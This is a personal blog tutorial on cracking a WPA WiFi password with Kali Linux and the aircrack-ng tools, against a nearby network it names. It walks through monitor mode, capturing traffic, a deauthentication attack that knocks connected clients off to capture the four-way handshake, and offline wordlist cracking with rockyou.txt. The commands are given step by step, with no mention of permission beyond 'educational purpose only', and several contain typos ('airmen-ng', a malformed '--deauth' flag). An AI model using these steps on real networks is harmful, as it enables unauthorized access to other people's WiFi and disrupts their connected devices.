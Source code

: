 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking


description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-1.jpg" alt="Network Adapter">

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-2.png" alt="Network Adapter 2">

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-3.png" alt="Network Adapter">

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-4.png" alt="Network Adapter">

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-5.png" alt="Network Adapter">

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-6.png" alt="Network Adapter">

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-7.png" alt="Network Adapter">

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-8.png" alt="Network Adapter">

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

> **What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-9.png" alt="Network Adapter">

Now, you see that it captures the handshake. Type in the ls command to see the file.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-10.png" alt="Network Adapter">

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/WH-11.png" alt="Network Adapter">

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
